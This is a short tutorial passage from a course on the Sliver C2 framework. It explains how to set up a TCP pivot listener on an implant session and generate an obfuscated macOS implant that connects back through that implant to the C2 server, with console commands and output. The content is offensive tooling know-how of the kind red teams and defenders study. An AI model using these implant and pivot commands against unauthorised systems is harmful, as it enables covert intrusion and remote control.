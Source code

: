 # This course is intended for the 1.6 version of Sliver, which is not yet published

Pivots allow routing implant traffic through other implants. This can be useful in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots: TCP, which can be used on all operating systems, and named pipes, which are Windows-only.

In both cases the workflow is relatively similar, as a first step, select a session and set up a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.
